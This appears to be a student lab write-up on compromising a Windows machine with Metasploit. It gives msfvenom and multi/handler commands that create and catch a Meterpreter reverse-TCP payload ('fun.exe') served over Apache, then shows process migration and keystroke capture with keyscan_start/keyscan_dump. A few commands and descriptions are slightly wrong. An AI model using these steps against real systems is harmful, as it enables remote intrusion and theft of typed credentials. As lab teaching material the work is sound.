 # EX NO 6 Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## PROGRAM:

Find the attackers ip address using ifconfig
## OUTPUT:
![s](https://github.com/praveenst13/Compromising-windows-using-Metasploit/assets/118787793/d9b9e488-6580-4969-a3d2-5061443c0ed1)



Create a malicious executable file fun.exe using msenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
## OUTPUT
![1](https://github.com/praveenst13/Compromising-windows-using-Metasploit/assets/118787793/12b58fda-5cec-4e47-872b-b838ef920d46)




copy the fun.exe into the apache /var/www/html folder
![2](https://github.com/praveenst13/Compromising-windows-using-Metasploit/assets/118787793/37d7e507-5d47-4ddb-ba93-586f6d73a51b)


Start apache server
sudo systemctl apache2 start

![3](https://github.com/praveenst13/Compromising-windows-using-Metasploit/assets/118787793/0d0224f9-d80c-42b9-a3ab-09b48da66a27)



Check the status of apache2
![4](https://github.com/praveenst13/Compromising-windows-using-Metasploit/assets/118787793/77516604-9c4f-4317-a188-c41de4625542)



Invoke msfconsole:
## OUTPUT:




Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.


Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit
![6](https://github.com/praveenst13/Compromising-windows-using-Metasploit/assets/118787793/938f78c9-0e8a-42ef-847c-a7cee7393beb)



On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads. 
![8](https://github.com/praveenst13/Compromising-windows-using-Metasploit/assets/118787793/4cf82361-ac00-46ab-92a2-3f09592d98d5)


Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit
![8](https://github.com/praveenst13/Compromising-windows-using-Metasploit/assets/118787793/fee0700e-bafd-4e76-af72-f5ac23a5d6ba)


To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 
![ss](https://github.com/praveenst13/Compromising-windows-using-Metasploit/assets/118787793/b2d36ca1-64a2-4863-a648-4ef4a8727dd9)



Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![9](https://github.com/praveenst13/Compromising-windows-using-Metasploit/assets/118787793/85fb473c-59fe-4042-b163-552fddc735d1)



keyscan_dump	Shows the keystrokes captured so far
![10](https://github.com/praveenst13/Compromising-windows-using-Metasploit/assets/118787793/785ef849-9095-4065-b38a-54b544a0c440)



## RESULT:
The Metasploit framework for reconnaissance is  examined successfully
